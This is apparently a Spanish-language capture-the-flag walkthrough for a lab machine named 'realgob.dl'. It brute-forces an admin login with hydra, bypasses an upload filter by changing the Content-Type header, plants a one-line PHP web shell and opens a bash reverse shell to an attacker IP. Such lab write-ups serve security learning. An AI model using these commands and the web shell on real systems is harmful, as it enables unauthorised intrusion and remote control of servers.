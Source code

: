 Al parecer tenemos un `admin.php`, el cual si vamos desde el navegador veremos lo siguiente:

![admin](../../../maquina-Report/img/admin.png)

Como vemos tenemos un panel de inicio de sesión, sabiendo esto podríamos intentar usar `hydra` para hacer fuerza bruta y ver si obtenemos la contraseña:

```css
hydra -l admin -P /opt/rockyou.txt realgob.dl http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos."
```

![hydra](../../../maquina-Report/img/hydra.png)

como vemos, hemos obtenido la contraseña, "admin:admin123" (para obtenerla hay que esperar bastante ya que se encuentra en la línea 90006).

## INTRUSIÓN

Ahora estando dentro de "cargas.php", veremos lo siguiente:

![cargas](../../../maquina-Report/img/cargas.png)

Al parecer nos permite subir archivos, los cuales si subimos estarán en "/uploads/", el problema de esto es que si intentamos subir un archivo php, nos dirá que no está permitido ese tipo de archivos, también si intentamos hacer un bypass de la extensión nos dirá lo mismo, por lo que mejor abrimos el burpsuite y vemos que hace por detrás. Una vez interceptada la petición, presionaremos "ctrl+r" al mismo tiempo, esto nos mandará la petición al repeater y estaremos más cómodos:

![repeater1](../../../maquina-Report/img/repeater1.png)

En este caso, puede que la web no se fije en la extensión sino en el "Content-type", por lo que podríamos cambiarlo por "image/jpeg", quedará así:

![repeater2](../../../maquina-Report/img/repeater2.png)

Una vez cambiado solo le damos a "send", y en la respuesta veremos esto:

![repeater3](../../../maquina-Report/img/repeater3.png)

Ahora que ya se subió, tendremos que hacer una u otra cosa dependiendo de nuestra shell, en mi caso es esta:

```php
<?php
system($_GET['cmd']);
?>
```

y con esta debemos hacer lo siguiente:

1. Primero preparamos el `netcat` escuchando por el puerto 443: `nc -lvnp 443`
2. Ahora vamos a la url donde se encuentra el archivo, en este caso sería: http://realgob.dl/uploads/cmd.php
3. Luego en la url agregamos lo siguiente: ?cmd=. Esto nos permitirá ejecutar comandos, por lo que para enviarnos una shell debemos poner lo siguiente: `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`
